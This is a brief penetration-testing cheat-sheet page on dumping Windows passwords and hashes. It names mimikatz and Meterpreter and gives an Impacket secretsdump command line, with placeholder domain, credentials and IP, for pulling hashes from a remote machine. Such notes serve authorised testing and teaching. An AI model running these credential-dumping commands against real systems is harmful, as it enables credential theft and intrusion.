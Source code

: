 # Dumping Passwords

## **mimikatz**

You can dump passwords (or NTML hash with Windows >=8.1) with mimikatz. Meterpreter should help with that iirc.

## Impacket secretsdump&#x20;

Performs various techniques to dump hashes from the remote machine without executing any agent there.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py" %}

```
python3 secretsdump.py FULLY_QUALIFIED_DOMAIN_NAME/USERNAME:PASSWORD@IP_ADDRESS
```
